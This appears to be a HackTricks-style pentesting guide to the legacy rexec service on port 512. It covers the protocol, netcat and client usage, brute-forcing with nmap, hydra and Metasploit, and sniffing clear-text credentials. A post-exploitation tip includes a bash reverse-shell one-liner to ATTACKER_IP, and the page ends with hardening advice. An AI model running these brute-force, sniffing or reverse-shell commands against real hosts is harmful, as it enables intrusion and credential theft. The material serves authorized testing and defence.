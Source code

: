 # 512 - Pentesting Rexec

{{#include ../banners/hacktricks-training.md}}

## Basic Information

Rexec (remote **exec**) is one of the original Berkeley *r*-services suite (together with `rlogin`, `rsh`, …).  It provides a **remote command-execution** capability **authenticated only with a clear-text username and password**.  The protocol was defined in the early 1980’s (see RFC 1060) and is nowadays considered **insecure by design**.  Nevertheless it is still enabled by default in some legacy UNIX / network-attached equipment and occasionally shows up during internal pentests.

**Default Port:** TCP 512 (`exec`)

```
PORT    STATE SERVICE
512/tcp open  exec
```

> 🔥  All traffic – including credentials – is transmitted **unencrypted**.  Anyone with the ability to sniff the network can recover the username, password and command.

### Protocol quick-look

1. Client connects to TCP 512.
2. Client sends three **NUL-terminated** strings:
   * the port number (as ASCII) where it wishes to receive stdout/stderr (often `0`),
   * the **username**,
   * the **password**.
3. A final NUL-terminated string with the **command** to execute is sent.
4. The server replies with a single 8-bit status byte (0 = success, `1` = failure) followed by the command output.

That means you can reproduce the exchange with nothing more than `echo -e` and `nc`:

```bash
(echo -ne "0\0user\0password\0id\0"; cat) | nc <target> 512
```

If the credentials are valid you will receive the output of `id` straight back on the same connection.

### Manual usage with the client

Many Linux distributions still ship the legacy client inside the **inetutils-rexec** / **rsh-client** package:

```bash
rexec -l user -p password <target> "uname -a"
```

If `-p` is omitted the client will prompt interactively for the password (visible on the wire in clear-text!).

---
## Enumeration & Brute-forcing

### Nmap

```bash
nmap -p 512 --script rexec-info <target>
# Discover service banner and test for stdout port mis-configuration

nmap -p 512 --script rexec-brute --script-args "userdb=users.txt,passdb=rockyou.txt" <target>
```
The `rexec-brute` NSE uses the protocol described above to try credentials very quickly .

### Hydra / Medusa / Ncrack

```bash
hydra -L users.txt -P passwords.txt rexec://<target> -s 512 -t 8
```
`hydra` has a dedicated **rexec** module and remains the fastest offline bruteforcer .  `medusa` (`-M REXEC`) and `ncrack` (`rexec` module) can be used in the same way.

### Metasploit

```
use auxiliary/scanner/rservices/rexec_login
set RHOSTS <target>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```
The module will spawn a shell on success and store the credentials in the database .

---
## Sniffing credentials

Because everything is clear-text, **network captures are priceless**.  With a copy of the traffic you can extract creds without touching the target:

```bash
tshark -r traffic.pcap -Y 'tcp.port == 512' -T fields -e data.decoded | \
  awk -F"\\0" '{print $2":"$3" -> "$4}'  # username:password -> command
```

(In Wireshark enable *Decode As …​* TCP 512 → REXEC to view nicely-parsed fields.)

---
## Post-Exploitation tips

* Commands run with the privileges of the supplied user.  If `/etc/pam.d/rexec` is mis-configured (e.g. `pam_rootok`), root shells are sometimes possible.
* Rexec ignores the user’s shell and executes the command via `/bin/sh -c <cmd>`.  You can therefore use typical shell-escape tricks (`;`, ``$( )``, backticks) to chain multiple commands or spawn reverse shells:
  ```bash
  rexec -l user -p pass <target> 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"'
  ```
* Passwords are often stored in **~/.netrc** on other systems; if you compromise one host you may reuse them for lateral movement.

---
## Hardening / Detection

* **Do not expose rexec**; replace it with SSH.  Virtually all modern *inetd* superservers comment the service out by default.
* If you must keep it, restrict access with TCP wrappers (`/etc/hosts.allow`) or firewall rules and enforce strong per-account passwords.
* Monitor for traffic to :512 and for `rexecd` process launches.  A single packet capture is enough to detect a compromise.
* Disable `rexec`, `rlogin`, `rsh` together – they share most of the same codebase and weaknesses.

---


## References

* Nmap NSE `rexec-brute` documentation – [https://nmap.org/nsedoc/scripts/rexec-brute.html](https://nmap.org/nsedoc/scripts/rexec-brute.html)
* Rapid7 Metasploit module `auxiliary/scanner/rservices/rexec_login` – [https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login](https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login)
{{#include ../banners/hacktricks-training.md}}
